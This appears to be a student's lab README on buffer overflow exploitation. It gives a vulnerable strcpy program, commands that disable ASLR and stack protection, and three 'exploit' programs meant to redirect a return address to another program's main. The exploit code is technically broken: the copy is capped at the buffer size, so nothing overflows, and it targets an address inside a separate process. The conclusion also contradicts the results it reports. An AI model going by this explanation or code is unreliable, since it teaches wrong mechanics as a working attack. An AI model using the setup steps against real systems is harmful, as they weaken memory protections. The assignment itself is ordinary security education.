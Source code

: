 # Exploiting Buffer Overflows

## Setup

- Linux OS
- Disable the address randomization

### Run

```bash
$ setarch --verbose --addr-no-randomize /bin/bash
```
- Above command will start a new Bash session with ASLR off, i.e., `ADDR_NO_RANDOMIZE` is on
- It is used to disable address randomization, which makes the system's memory layout predictable.

### Verify

![addr-no-randomize](<Screenshot from 2024-02-01 20-54-54.png>)
- The `ldd` command shows the dynamic library dependencies of the `/bin/bash` executable.

## Codes

#### `testme.c`

- compromise the following program using a buffer overflow attack
- given in the assignment

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    // Make some stack information
    char a[100], b[100], c[100], d[100];
    // Call the exploitable function
    exploitable(argv[1]);
    // Return everything is OK
    return (0);
}
int exploitable(char *arg)
{
    // Make some stack space
    char buffer[10];
    // Now copy the buffer
    strcpy(buffer, arg);
    printf("The buffer says .. [%s/%p].\n", buffer, &buffer);
    // Return everything fun
    return (0);
}
```

#### `sanskriti.c`

- a simple C program/ function < yourname > that prints your name, the class name, and the current date and time to standard output

```c
#include <stdio.h>
#include <time.h>

int main()
{
    printf("Name: Sanskriti\n");
    printf("Class: CSE\n");
    time_t now = time(NULL);
    printf("Date and Time: %s\n", ctime(&now));
    return 0;
}

```

#### `exploit.c`

- modified version of `testme.c` to perform buffer overflow
- It creates a buffer of size `10` and overflows it intentionally with `0x41` 'A's, followed by the address `0x11a9` (the address of the `main` function in `sanskriti.c`).
- return address here will be set to the address of the `main` of the `sanskriti.c`

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define BUFFER_SIZE 10

void exploitable(char *arg)
{
    char buffer[BUFFER_SIZE];
    size_t length = strnlen(arg, BUFFER_SIZE); // Use safer strnlen
    memcpy(buffer, arg, length);
    buffer[length] = '\0'; // Ensure null-terminated
    printf("The buffer says .. [%s/%p].\n", buffer, &buffer);
}

int main(int argc, char **argv)
{
    char exploit[BUFFER_SIZE + 4];
    memset(exploit, 0x41, BUFFER_SIZE + 4);
    *(unsigned int *)(exploit + BUFFER_SIZE) = 0x11a9;
    exploitable(exploit);
    return 0;
}

```

#### `exploit1.c`

- modified version of `exploit.c` where the return address is set to the address of `sanskriti_main` function
- it will use the address of internal function to rather than the `main` of the outside program `sanskriti.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

#define BUFFER_SIZE 10

void exploitable(char *arg)
{
    char buffer[BUFFER_SIZE];
    size_t length = strnlen(arg, BUFFER_SIZE); // Use safer strnlen
    memcpy(buffer, arg, length);
    buffer[length] = '\0'; // Ensure null-terminated
    printf("The buffer says .. [%s/%p].\n", buffer, &buffer);
}

// Add a function prototype for the main function in sanskriti.c
void sanskriti_main();

int main(int argc, char **argv)
{
    char exploit[BUFFER_SIZE + sizeof(void *)]; // Adjust size to fit address
    memset(exploit, 0x41, BUFFER_SIZE);

    // Overwrite the return address with the address of sanskriti_main
    *(void **)(exploit + BUFFER_SIZE) = (void *)sanskriti_main;

    exploitable(exploit);
    return 0;
}

// Define the main function in sanskriti.c
void sanskriti_main()
{
    printf("Name: Sanskriti\n");
    printf("Class: CSE\n");
    time_t now = time(NULL);
    printf("Date and Time: %s\n", ctime(&now));
    exit(0); // Terminate the program after printing
}

```

#### `exploit2.c`

- modified version of `exploit1.c`
- it will use the address of the `main` of the outside program `sanskriti.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BUFFER_SIZE 10

void exploitable(char *arg)
{
    char buffer[BUFFER_SIZE];
    size_t length = strnlen(arg, BUFFER_SIZE); // Use safer strnlen
    memcpy(buffer, arg, length);
    buffer[length] = '\0'; // Ensure null-terminated
    printf("The buffer says .. [%s/%p].\n", buffer, &buffer);
}

int main(int argc, char **argv)
{
    char exploit[BUFFER_SIZE + sizeof(void *)]; // Adjust size to fit address
    memset(exploit, 0x41, BUFFER_SIZE);

    // Overwrite the return address with the address of main in sanskriti.c
    // Use the correct address of the main function
    void (*sanskriti_main_ptr)() = (void (*)())0x11a9;

    // Adjust for endianness
    for (int i = 0; i < sizeof(void *); ++i)
    {
        exploit[BUFFER_SIZE + i] = ((char *)&sanskriti_main_ptr)[i];
    }

    exploitable(exploit);
    return 0;
}

```

## Buffer Overflow Execution

### Run

```bash
$ gcc -fno-stack-protector -z execstack -o sanskriti sanskriti.c
$ ./sanskriti
$ objdump -D -M intel sanskriti | grep main
```


```bash
$ gcc -fno-stack-protector -z execstack -o exploit exploit.c
$ ./exploit
```

### Explanation

![get-address](<Screenshot from 2024-02-01 21-00-09.png>)

- `objdump -D -M intel sanskriti | grep main` is used to find the address of the `main` function in the compiled `sanskriti` program. 
- The address is found to be `0x11a9`

![exploit](<Screenshot from 2024-02-01 21-00-29.png>)
![exploit1](<Screenshot from 2024-02-01 21-10-47.png>)
![exploit2](<Screenshot from 2024-02-01 21-10-58.png>)

- `gcc -fno-stack-protector -z execstack -o exploit exploit.c` compiles `exploit.c` with disabled stack protection and executable stack.
- `./exploit` runs the compiled `exploit` program, triggering a buffer overflow

## Results

- The output of `./exploit` shows a buffer overflow with a repeating pattern of 'A's and the address `0x7fffffffdda0` on the stack
- This address is where the return address (saved in the stack frame) will be overwritten with the address of the `main` function in `sanskriti.c`
- The `exploit.c` code does not directly call the `main` function from `sanskriti.c`
- It calls the `exploitable` function with a buffer overflow that modifies the return address to point to the `main` function
- As a result, the output of `./exploit` will display the buffer content and the address of the buffer but not the content of the main function.

## Conclusion

- The provided codes and terminal outputs demonstrate the process of exploiting a buffer overflow vulnerability to redirect the control flow of the program to the `main` function in `sanskriti.c`